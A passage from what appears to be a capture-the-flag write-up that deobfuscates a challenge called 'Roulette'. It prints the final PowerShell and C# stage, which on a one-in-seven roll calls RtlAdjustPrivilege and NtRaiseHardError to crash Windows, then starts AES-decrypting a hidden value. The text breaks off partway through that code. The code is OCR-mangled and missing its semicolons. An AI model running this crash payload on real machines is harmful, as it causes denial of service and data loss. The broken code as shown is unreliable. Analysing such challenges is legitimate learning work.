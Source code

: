 A few things are happening:

1. a random variable is set with the result (`/a`) of the following modulo statement (`X %% Y`)
2. using `cmd /c` an arbitrary command (`exit X`) is run that exits with the exit value of the previously calculated variable
3. another new random variable is set with the exit value, using the read-only variable `%=exitcodeAscii%`. This gets the ascii character of the exit value.

This is such a crazy way to convert integers into ascii characters! A lot of vim macros (the `=` register can compute the modulo), and some `sed`s later, we get another base64 code that is interpreted by Powershell.

## step 5: Final payload

Decoding the base64 yields another base64 code, which again deciphered gives a rather interesting embedded **C#** code in a Powershell script. It is in UTF-16LE, so a bit of tidying up has to be done.

```powershell
$c=New-Object System.CodeDom.Compiler.CompilerParameters
$c.CompilerOptions='/unsafe'
$a=Add-Type -TypeDefinition $s -Language CSharp -PassThru -CompilerParameters $c

if((Get-Random -Min 1 -Max 7) -eq 1) {
[X]::Shot()
}
Start-Process "powershell.exe"
```

Here we see the **Roulette** part of the task. The C# code, in the string `$s`, is compiled and loaded. There is a one-in-seven chance of running the code, else the if-block is skipped and a normal Powershell is executed.

The C# segment is as followed:

```cs
using System
using System.Text
using System.Security.Cryptography
using System.Runtime.InteropServices
using System.IO
public class X
{
[DllImport("ntdll.dll")]
public static extern uint RtlAdjustPrivilege(int p,bool e,bool c,out bool o)

[DllImport("ntdll.dll")]
public static extern uint NtRaiseHardError(uint e,uint n,uint u,IntPtr p,uint v,out uint r)

public static unsafe string Shot()
{
bool o
uint r
RtlAdjustPrivilege(19,true,false,out o)
NtRaiseHardError(0xc0000022,0,0,IntPtr.Zero,6,out r)
byte[]c=Convert.FromBase64String("RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw")
byte[]k=Convert.FromBase64String("/a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=")
byte[]i=Convert.FromBase64String("9sXGmK4q9LdYFdOp4TSsQw==")
using(Aes a=Aes.Create())
{
a.Key=k
a.IV=i
ICryptoTransform d=a.CreateDecryptor(a.Key,a.IV)
using(var m=new MemoryStream(c))
using(var y=new CryptoStream(m,d,CryptoStreamMode.Read))
using(var s=new StreamReader(y))
```